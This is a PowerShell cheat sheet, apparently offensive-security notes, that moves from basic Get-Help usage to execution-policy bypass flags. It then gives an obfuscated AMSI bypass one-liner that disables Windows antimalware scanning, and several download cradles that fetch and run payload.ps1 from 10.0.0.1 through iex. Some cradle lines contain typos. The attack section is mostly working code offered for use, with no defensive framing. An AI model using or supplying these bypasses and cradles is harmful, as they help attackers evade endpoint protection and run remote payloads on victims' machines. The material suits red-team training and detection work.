 # PowerShell Basics

List everything about the help topics  
`Get-Help *`

List everything which contains the word process  
`Get-Help process` 

Update the help system (v3+) 
`Update-Help`  

List full help about a topic (Get-Item cmdlet in this case)  
`Get-Help Get-Item -Full`  

List examples of how to run a cmdlet (Get-Item in this case)  
`Get-Help Get-Item -Examples`  

Execution Policy **_NOT A SECURITY LAYER_**  

```powershell
powershell -ExecutionPolicy bypass  
powershell -c  
powershell -encodedcommand  
$env:PSExecutionPolicyPreference="bypass"  
```

# AMSI Bypass
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

PowerShell Module Imports  

A module can be imported with  
`Import-Module <module path>`  

All the commands in a module can be listed with  
`Get-Command -Module <module name>`

# PowerShell Download Cradles

```powershell
iex (New-Object Net.WebClient).DownloadString('http://10.0.0.1/payload.ps1')

$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://10.0.0.1/payload.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```

Powershell v3+
```powershell
iex (iwr 'http://10.0.0.1/payload.ps1')

$h=New-Object -ComObect Mscml2.XMLHTTP;$h.open('GET','http://10.0.0.1/payload.ps1', $false);$h.send();iex $h.responseText

wr = [System.Net.WebRequest]::Create("http://10.0.0.1/payload.ps1") 
$r = $wr.GetResponse() IEX([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
